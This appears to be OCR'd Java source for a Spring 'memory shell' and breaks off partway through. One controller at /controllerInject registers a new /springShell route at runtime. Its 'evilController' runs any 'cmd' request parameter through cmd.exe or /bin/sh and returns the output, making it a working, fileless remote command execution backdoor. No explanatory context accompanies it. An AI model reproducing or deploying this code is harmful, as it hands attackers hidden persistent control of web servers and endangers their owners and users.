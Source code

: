 ```java
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import org.springframework.web.servlet.support.RequestContextUtils;
import springweb.beans.evilController;

import java.lang.reflect.Method;

@RestController
public class MemoryShellController {
    @RequestMapping("/controllerInject")
    public String controllerInject() {
        WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);
        Controller controller = evilController.getController();
        Method method = controller.getClass().getDeclaredMethods()[0];
        PatternsRequestCondition url = new PatternsRequestCondition("/springShell");
        RequestMethodsRequestCondition mc = new RequestMethodsRequestCondition();
        RequestMappingInfo info = new RequestMappingInfo(url, mc, null, null, null, null, null);
        mapping.registerMapping(info, controller, method);
        return "";
    }

}

```
```java
package springweb.beans;

import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.mvc.Controller;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;
import java.util.Scanner;

public class evilController {
    public static Controller getController(){
        return new Controller() {
            @Override
            public ModelAndView handleRequest(HttpServletRequest request, HttpServletResponse response) throws Exception {
                String cmd = request.getParameter("cmd");
                PrintWriter writer = response.getWriter();
                if (cmd != null) {
                    String o = "";
                    ProcessBuilder p;
                    if (System.getProperty("os.name").toLowerCase().contains("win")) {
                        p = new ProcessBuilder("cmd.exe", "/c", cmd);
                    } else {
                        p = new ProcessBuilder("/bin/sh", "-c", cmd);
                    }
                    Scanner c = new Scanner(p.start().getInputStream()).useDelimiter("\\A");
                    o = c.hasNext() ? c.next() : o;
                    c.close();
                    writer.write(o);
                    writer.flush();
                    writer.close();
                } else {
                    response.sendError(404);
                }
                return null;
```